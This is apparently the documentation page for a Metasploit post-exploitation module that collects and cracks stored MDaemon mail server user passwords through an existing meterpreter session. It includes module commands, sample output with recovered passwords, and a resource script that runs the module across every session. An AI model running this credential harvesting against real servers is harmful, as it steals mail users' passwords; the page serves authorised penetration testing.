 ## Vulnerable Application

Download and install the email server: [www.altn.com](http://www.altn.com/Downloads/MDaemon-Mail-Server-Free-Trial/)

You require a valid licence, but there's a demo for 30 days.

### Verified

1. AWS --> Microsoft Windows Server 2012 R2 Base - ami-8d0acfed Instance: t2.micro @ July-August 2016 x64 bits with meterpreter 64 bits.
2. AWS --> Microsoft Windows Server 2012 R2 Base - ami-8d0acfed Instance: t2.micro @ July-August 2016 x64 bits with meterpreter 32 bits. Worked,  but couldn't find the path through Register.
3. VM --> Microsoft Windows 7 on VMWare.

## Verification Steps

1. Get a meterpreter on a windows machine that has MDaemon installed.
2. Load the module: `use post/windows/gather/credentials/mdaemon_cred_collector`
3. Set the correct session on the module.
  1. Optional: you can add the remote path of the installation, especially if the software is installed on a strange path and the module can't find it..
4. Run the module and enjoy the loot.

## Example Run
**Normal mode**
```
msf > use post/windows/gather/credentials/mdaemon_cred_collector 
msf > set SESSION 1
msf > exploit 
```

Output:

```
[+] Configuration file found: C:\MDaemon\App\userlist.dat
[+] Found MDaemons on WIN-F7ANP3JL4GJ via session ID: 1
[*]     Extracted: MDaemon:p0%AhBxvs4IZ
[*]     Extracted: webmaster:Manuel123.
[*] SMTP credentials saved in: /root/.msf4/loot/20160831194802_default_127.0.0.1_MDaemon.smtp_ser_754168.txt
[*]     Extracted: webmaster:Manuel123.
[*] POP3 credentials saved in: /root/.msf4/loot/20160831194802_default_127.0.0.1_MDaemon.pop3_ser_608271.txt
[*]     Extracted: webmaster:Manuel123.
[*] IMAP credentials saved in: /root/.msf4/loot/20160831194802_default_127.0.0.1_MDaemon.imap_ser_769125.txt
[*] Post module execution completed
```

**Verbose true**
```
msf > use post/windows/gather/credentials/mdaemon_cred_collector 
msf > set SESSION 1
msf > set verbose true
msf > exploit 
```

Output:

```
[*] Searching MDaemon installation at C:
[*] Found MDaemon installation at C:
[*] Searching MDaemon installation at C:
[*] Found MDaemon installation at C:
[*] Searching MDaemon installation at C:\Program Files
[*] Searching MDaemon installation at C:\Program Files (x86)
[*] Searching MDaemon installation at C:\Program Files
[*] Checking for Userlist in MDaemons directory at: C:\MDaemon\App
[+] Configuration file found: C:\MDaemon\App\userlist.dat
[+] Found MDaemons on WIN-F7ANP3JL4GJ via session ID: 1
[*] Downloading UserList.dat file to tmp file: SFJOXMHZEFWA
[*] Cracking xJiKYdun7OvjVLnM
[*] Password p0%AhBxvs4IZ
[*] Cracking ocnTldjRpaejTg==
[*] Password Manuel123.
[*] Collected the following credentials:
[*]     Usernames: 2
[*]     Passwords: 2
[*] Deleting tmp file: SFJOXMHZEFWA
[*]     Extracted: MDaemon:p0%AhBxvs4IZ
[*]     Extracted: webmaster:Manuel123.
[*] SMTP credentials saved in: /root/.msf4/loot/20160831194819_default_127.0.0.1_MDaemon.smtp_ser_114741.txt
[*]     Extracted: webmaster:Manuel123.
[*] POP3 credentials saved in: /root/.msf4/loot/20160831194819_default_127.0.0.1_MDaemon.pop3_ser_369240.txt
[*]     Extracted: webmaster:Manuel123.
[*] IMAP credentials saved in: /root/.msf4/loot/20160831194819_default_127.0.0.1_MDaemon.imap_ser_028427.txt
[*] Post module execution completed
```

## Options

  **RPATH**
  The remote path of the MDaemon installation.
  If the machine runs on 64bits and the meterpreter is 32 bits, it won't be able to find the installation path in the registry, but it will search some default paths. If it is installed on a non-default path you can give the RPATH and it will work.

## Scenarios
**Run on all sessions**
If you wish to run the post against all sessions from framework, here is how:

1. Create the following resource script:
```
framework.sessions.each_pair do |sid, session|
  run_single("use post/windows/gather/credentials/mdaemon_cred_collector")
  run_single("set SESSION #{sid}")
  run_single("run")
end
```
2. At the msf prompt, execute the above resource script:
`msf > resource path-to-resource-script`

**Meterpreter on email server**

If you have a meterpreter running on a server that has MDaemon installed, run the module and you will get all the users and passwords of the email server. Quite useful for trying password reuse and/or checking the strength of the passwords.

Note: MDaemon can store the passwords on a database, in that case the module won't work, but you can search for the database location, username and password and still get them :)


## References
http://www.securityfocus.com/bid/4686

https://github.com/AgoraSecurity/MdaemonCrack
